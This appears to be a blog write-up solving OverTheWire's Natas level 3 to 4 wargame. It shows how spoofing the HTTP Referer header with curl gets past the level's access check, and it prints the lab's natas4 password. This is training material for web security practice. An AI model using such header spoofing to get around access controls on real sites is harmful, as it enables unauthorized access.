 ```yaml
---
title: Overthewire Natas Level 3 -> Level 4
date: '2022-04-20 20:35:00'
description: ''
categories: [OverTheWire, Natas]
tags: [overthewire, natas, web]
---
```


Solution for the Overthewire.org [Natas level 3 -> Level 4](https://overthewire.org/wargames/natas/natas4.html){:target="\_blank"}

## Description

Username: natas4  

URL:      <http://natas4.natas.labs.overthewire.org>

---

## Solution

Visit the url `http://natas4.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas4` and the password obtained from the previous challenge.

After logging in we get a message saying "Access disallowed".

![natas04 home page](/assets/img/overthewire/natas/natas04_home_page.png)

The message further goes on to say that authorized users need to come from "<http://natas5.natas.labs.overthewire.org>"

Checking the source code of the page does not give any new information.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Going back to the message, how does the browser know what page we came from ? Information like that is passed in the `http header`.  
The Mozilla developer site is a good resource for checking what headers are available. [Mozilla Developer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers).

After reading through the headers we find what we are looking for.

```plaintext
Referer: The address of the previous web page from which a link to the currently requested page was followed.
```

The `Referer` header tells the page we visit where we came from.

So now we need to send a request to the natas4 page while setting our own `referer` value. We can do this using a command line tool `curl`.

`curl` is a tool for transferring data from or to a server and supports user authentication, cookies and setting header values.

User this curl command we get the password.

```shell
$curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
```

* `curl`
* `--user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ` --authentication using username:password format
* `--referer http://natas5.natas.labs.overthewire.org/` --set the referer header to the natas5 url
* `http://natas4.natas.labs.overthewire.org/` the url we are visting.

Since `curl` is a command line program we get the html source code back.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOf**************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Assuming the correct referer is set we get the password.

```plaintext
Access granted. The password for natas5 is iX6IOf**************************
```
